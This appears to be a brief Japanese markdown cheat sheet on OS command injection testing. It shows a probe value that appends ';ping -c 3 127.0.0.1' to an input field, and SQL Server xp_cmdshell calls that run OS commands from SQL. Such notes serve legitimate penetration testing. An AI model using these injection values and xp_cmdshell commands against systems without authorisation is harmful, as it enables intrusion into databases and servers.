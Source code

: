 # OSCommandInjection

## 検証方法

* 入力値のあとに`;ping -c 3 127.0.0.1`を入力して検証

## SQLでOSコマンドを実行

* SQL Server 限定
* カレントディレクトリはcmd.exeがあるディレクトリ

``` SQL
   exec xp_cmdshell 'echo file output test > test.txt'
   --　戻り値が欲しいとき
   exec @result = master..xp_cmdshell 'dir *.exe'
```
